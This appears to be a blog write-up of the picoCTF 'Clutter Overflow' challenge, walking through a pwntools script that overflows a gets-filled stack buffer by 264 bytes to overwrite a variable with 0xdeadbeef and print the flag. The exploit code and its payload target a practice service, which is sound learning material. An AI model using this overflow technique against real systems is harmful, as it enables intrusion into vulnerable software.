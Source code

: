 ```yaml
---
slug: clutter_overflow
title: Clutter Overflow
authors: [nguyen]
tags: [CTF, Binary Exploitation, Pico CTF]
---
```


Pico CTF: Clutter Overflow

<!--truncate-->

The challenge can be found [here](https://play.picoctf.org/practice/challenge/1216)

## The Challenge

Upon running `nc mars.picoctf.net 31890`, I get the following output.

![Clutter Overflow Startup](/img/clutter_overflow_start.png)

## The Solve

### Determining the objective

First, I attempt to send the input of 'monkeys' and receive this as output.

![Clutter Overflow Initial Output](/img/clutter_overflow_ex_output.png)

I take a look at the source as it is provided and see that the gets command is used to store the user input into the char buffer called 'clutter'. 'clutter' is a fixed size char array of length 100 and is vulnerable to buffer overruns.

![Clutter Overflow Source Code](/img/clutter_overflow_source.png)

In order to get the flag, I know that I need to overrun the buffer and modify the data stored within 'code' to be equal to 0xdeadbeef.

### Reaching the objective

I use python to create a script that establishes a connection to the challenge with the help of pwntools.

```python
io = remote('mars.picoctf.net', 31890)
```

I know that I need to send data that is significantly larger then the size of clutter's size. I use pwntools to create a pattern with length 500 and a unique subsequence of 8 bytes because the variable 'code' is 8 bytes.

```python
pat = cyclic(500, n=8)
```

I send the pattern to the server and receive up to before 'code' is printed.

```python
io.sendlineafter(b"What do you see?", pat)
```

I receive until the line that gives me the hex value of 'code' and convert it into an integer.

```python
io.recvuntil(b'code == 0x')
```

```python
code = io.recvline()
ints = int(code.decode(), base=16)
```

I print the value of ints and get '7089054359331365225' as the value.

I search for this as the sebsequence of cyclic_find and store it in 'offset'.

```python
offset = cyclic_find(ints, 8)
```

The value of offset turns out to be 264 so 'code' is 264 bytes away from 'clutter' on the stack. Knowing this, I can now send the value 0xdeadbeef after the offset using the fit command.

```python
payload = fit({
    offset:0xdeadbeef
})
```

The payload ends up as b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaac\xef\xbe\xad\xde\x00\x00\x00\x00'

I then send the payload to the server.

```python
io.sendlineafter(b"What do you see?", payload)
```

The output matches as expected and I get the flag.

![Clutter Overflow Flag](/img/clutter_overflow_flag.png)
